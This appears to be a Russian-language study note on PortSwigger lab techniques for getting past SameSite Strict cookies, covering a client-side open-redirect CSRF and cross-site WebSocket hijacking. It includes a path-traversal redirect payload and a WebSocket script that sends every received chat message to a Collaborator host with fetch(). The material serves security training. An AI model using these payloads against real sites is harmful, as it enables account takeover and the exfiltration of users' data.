
## SameSite Strict - перенаправление на стороне клиента (use exploit server)

https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect

Допустим на сайте есть скрипт:
```javascript
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```
В таком случае можно использовать open redirect - маршрут по изменению email в параметре postId:
```http
GET /site.com/?postId=../../../{маршрут на смену email}
```
Далее просто проэксплуатирвоать нагрузку:
```javascript
<script>
	document.lacation = 'https://site.com/?postId=../../../{маршрут на смену email}'
</script>
```
По сути нужно лишь проэксплуатировать open redirect, если он есть на сайте.

---
## SameSite Strict через дочерний домен ([cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking) ([CSWSH](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking)))
https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain
Допустим есть сервер с живым чатом, использующий веб-сокеты для загрузки контента даже неавторизованного пользователя. Можно открыть CSRF соединение искусственно на своём explit сервере:

``` javascript
<script>
var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat'); ws.onopen = function() { ws.send("READY"); }; 
ws.onmessage = function(event) { 
	fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data}); }; 
</script>
```
В итоге в тело запроса колобаратора попадёт подтверждение наличия уязвимости CSWSH.
С помощью Target -> Site map можно изучить веб-ресурс и поискать сторонние домены, например в js скриптах или html. В данной лабораторной оказывается уязвимый поддомен с XSS. 

